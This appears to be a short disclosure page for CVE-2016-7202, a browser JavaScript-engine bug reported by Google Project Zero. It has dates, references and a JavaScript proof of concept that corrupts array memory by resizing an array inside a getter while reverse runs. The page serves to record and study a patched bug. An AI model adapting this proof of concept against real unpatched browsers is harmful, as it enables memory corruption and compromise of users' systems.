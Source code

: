 # CVE-2016-7202

- Report: Sep 2016
- Fix: Nov 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var a = [1];
a.length = 1000;
var j = [];

var o = {};
  Object.defineProperty(o, '1', {
    get: function() {
      a.length = 1002;
      j.fill.call(a, 7.7);
      return 2;
    }
  });

a.__proto__ = o;

var r = j.reverse.call(a);
r.length = 0xfffffffe;
r[0xfffffffe - 1] = 10;
```

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-129)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=925)
